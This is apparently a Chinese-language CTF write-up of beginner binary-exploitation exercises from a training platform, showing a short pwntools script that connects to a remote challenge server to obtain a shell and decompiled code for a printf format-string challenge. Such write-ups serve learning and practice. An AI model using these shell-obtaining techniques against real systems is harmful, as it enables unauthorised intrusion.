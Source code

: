 # Pwn Exercise Area

## 0x00 前言

因为pwn基础实在太次所以从头到尾刷了一边攻防世界上的新手练习题

wsl+pwntool+vscode 太舒适了 虽然64位wsl调32位的ELF很麻烦

收货：

- pwntool的基本使用方式和exp的基础写法
- 对函数调用时栈内的变化有了更深的了解，懂了一点点栈溢出的含义
- 对C格式化字符串有了更深的理解

Todo:

- gdb-peda 本地动态调试查看程序实时栈变化
- pwntool 本地调试和log的写法
- shellcode的编写

## 0x01 Getshell

真·运行就能拿到~~flag~~ shell

### Exp

```python
#coding=utf-8
from pwn import *
io=remote("111.198.29.45","30397")
io.interactive()
```

然后cat flag就完事了

## 0x02 CGfsb

最基础的printf格式化漏洞

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_intro-zh/

checksec 一下发现是32位的ELF 然后也没有开PIE

丢进ida pro,关键部分长这样

```cpp
  printf(&s);
  if ( pwnme == 8 )
  {
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
  }
  else
  {
    puts("Thank you!");
  }
```
